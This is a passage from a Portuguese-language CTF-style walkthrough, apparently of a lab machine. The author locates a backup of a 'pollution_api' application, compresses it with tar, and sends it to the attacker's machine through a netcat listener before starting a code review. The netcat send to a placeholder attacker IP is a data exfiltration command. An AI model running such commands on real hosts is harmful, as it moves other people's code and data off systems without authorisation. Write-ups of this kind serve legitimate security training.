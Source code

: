 Navegando nos diretórios, vemos que existe um backup da pollution\_api em "**/home/victor/pollution\_api**", assim podemos fazer code review na aplicação.

Podemos compactar a pasta usando o "**tar**" e fazer upload para nosso sistema:

```
tar -zcf pollution_api.tgz /home/victor/pollution_api
```

Abrimos o netcat na porta 80 no nosso sistema:

```
nc -lnvp 80 > pollution_api.tgz
```

<figure><img src="./assets/41.png" alt=""><figcaption></figcaption></figure>

Na máquina enviamos o arquivo para nosso netcat:

```
nc <your-ip> 80 < pollution_api.tgz
```

<figure><img src="./assets/42.png" alt=""><figcaption></figcaption></figure>

Agora basta descompactar e começar o code review.

### Code Review

Analisando o arquivo index.js:

<figure><img src="./assets/43.png" alt=""><figcaption></figcaption></figure>
